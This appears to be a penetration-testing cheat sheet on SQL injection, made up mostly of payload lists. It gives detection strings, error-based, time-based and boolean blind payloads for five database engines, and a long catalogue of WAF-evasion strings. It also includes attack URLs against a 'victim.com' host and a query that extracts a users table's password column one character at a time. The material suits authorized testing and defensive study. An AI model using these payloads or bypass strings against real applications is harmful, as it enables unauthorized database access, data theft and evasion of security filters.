 SQL Injection (SQLi) is a critical web vulnerability where an attacker manipulates SQL queries by injecting malicious input into an application's database query. This can lead to unauthorized data access, data leakage, or even complete database compromise.

## Where to test:

* GET parameters
* POST body
* Headers (e.g., User-Agent, Referer, X-Forwarded-For)
* Cookies
* Hidden fields
* JSON/XML in API requests

  
**Quick Detection Payloads:**
```
' → does error show?
"
' or 1=1--
' and sleep(5)--
' and (select 1 from dual where 1=1)-- (Oracle)
```

# How to Identify SQLi Types:

### Error-Based SQL Injection

Test Payloads:
```
'         
"        
')         
" OR 1=1--  
' ORDER BY 100--  
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(version(), FLOOR(RAND()*2)) x FROM information_schema.tables GROUP BY x) a)-- 
```

You see SQL error messages like:

* You have an error in your SQL syntax
* Warning: mysql_fetch_assoc()
* Unclosed quotation mark after the character string
* ORA-00933: SQL command not properly ended

IF Blocked:
Try Below Techniques:
```
%27  (URL encoded ')
%22  (URL encoded ")
/**/ (inline comment to bypass filters)
/*!SELECT*/  (MySQL comment bypass)
```
## Time-Based Blind SQL Injection

### MySQL
 ```
' AND SLEEP(5)--  
" AND SLEEP(5)--  
1 AND SLEEP(5)--  
' OR IF(1=1, SLEEP(5), 0)--  
' AND (SELECT * FROM users LIMIT 1) AND SLEEP(5)--
/‘XOR(if(now()=sysdate(),sleep(8),0))XOR’111/
/page/‘XOR(if(now()=sysdate(),sleep(8),0))XOR’111/test.test

 ```
### MSSQL (Microsoft SQL Server)
 ```
' WAITFOR DELAY '0:0:5'--  
" WAITFOR DELAY '0:0:5'--  
1; WAITFOR DELAY '0:0:5'--  
'; IF (1=1) WAITFOR DELAY '0:0:5'--  
'; SELECT CASE WHEN (1=1) THEN WAITFOR DELAY '0:0:5' ELSE NULL END--  

 ```
### Oracle
```
 ' AND 1=1 AND dbms_pipe.receive_message('a',5)--  
' OR 1=1 AND dbms_pipe.receive_message('a',5)--  
' OR dbms_lock.sleep(5) FROM dual--  
' AND (SELECT CASE WHEN 1=1 THEN dbms_lock.sleep(5) ELSE null END FROM dual)--  
```
### PostgreSQL
```
'; SELECT pg_sleep(5)--  
1 AND pg_sleep(5)--  
' OR pg_sleep(5)--  
' OR (SELECT CASE WHEN 1=1 THEN pg_sleep(5) ELSE pg_sleep(0) END)--  
' OR 1=(SELECT 1 FROM pg_sleep(5))--
```
### SQLite
```
' AND randomblob(1000000000)--  
' OR (SELECT load_extension('non_existing'))--  # causes crash or delay
' AND (SELECT COUNT(*) FROM sqlite_master, sqlite_master, sqlite_master)--  
```

# Boolean-Based Blind SQL Injection

Test Payloads:
```
' AND 1=1--          → should behave normally (TRUE)
' AND 1=2--          → should behave differently (FALSE)

" AND 1=1--         
" AND 1=2--         

' OR '1'='1'--       → TRUE
' OR '1'='2'--       → FALSE

1 AND 1=1           
1 AND 1=2           
```

 If blocked:
**Try encoding:**
``
%27 AND 1=1--  
%27 AND 1=2--  
``
**Use case-insensitive logic:**
``
' oR 1=1--  
``
**Try comment tricks:**
``
' AND/**/1=1--  
``



Bypassing WAF: Blind SQL Injection Using logical requests AND/OR • The following requests allow one to conduct a successful attack for many WAFs

``` 
/?id=1+OR+0x50=0x50 (HEX)
/?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74 (ASCII-Based-Boolean-Check)

```
# WAF Bypassing Strings

```
` /!%55NiOn/ /!%53eLEct/
%55nion(%53elect 1,2,3)– -
+union+distinct+select+
+union+distinctROW+select+
///!12345UNION SELECT///
concat(0x223e,@@version)
concat(0x273e27,version(),0x3c212d2d)
concat(0x223e3c62723e,version(),0x3c696d67207372633d22)
concat(0x223e,@@version,0x3c696d67207372633d22)
concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e)
concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22)
concat(‘’,@@version,’’)
///!50000UNION SELECT///
//UNION///!50000SELECT///
/!50000UniON SeLeCt/
union /!50000%53elect/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/!%55NiOn/ /!%53eLEct/
/!u%6eion/ /!se%6cect/
+un//ion+se//lect
uni%0bon+se%0blect
%2f%2funion%2f*%2fselect
union%23foo%2Fbar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/–/union/–/select/–/
union (/!/*/ SeleCT */ 1,2,3)
/!union/+/!select/
union+/!select/
//union//select//
//uNIon//sEleCt//
///*!union*////!select///
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
+UnIOn%0d%0aSeleCt%0d%0a
UNION/*&test=1*/SELECT/*&pwn=2*/
un?+un//ion+se//lect+
+UNunionION+SEselectLECT+
+uni%0bon+se%0blect+
%252f%252a*/union%252f%252a /select%252f%252a*/
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f%2funion%2f%2fselect%2f%2f
union%23foo%2Fbar%0D%0Aselect%23foo%0D%0A
/!UnIoN*/SeLecT+`
```
## Bypass with Comments
SQL comments allow us to bypass a lot of filtering and WAFs.

`
Code :
 http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--
`
## Case Changing
Some WAFs filter only lowercase SQL keyword.
Regex Filter: /union\sselect/g
`
http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--
`

> **Don't Blindly Paste the Payloads, First Fingerprint the application and understand then use the payloads accordingly if any WAF OR Firewall there try Different Test cases discussed above to  Bypass the the WAF**

---


References:

https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://owasp.org/www-community/attacks/SQL_Injection
https://portswigger.net/support/sql-injection-bypassing-common-filters
https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/BasicObfuscation.wiki
https://johnermac.github.io/notes/ewptx/sqlievasion/
https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html
https://www.owasp.org/index.php/Testing_for_NoSQL_injection
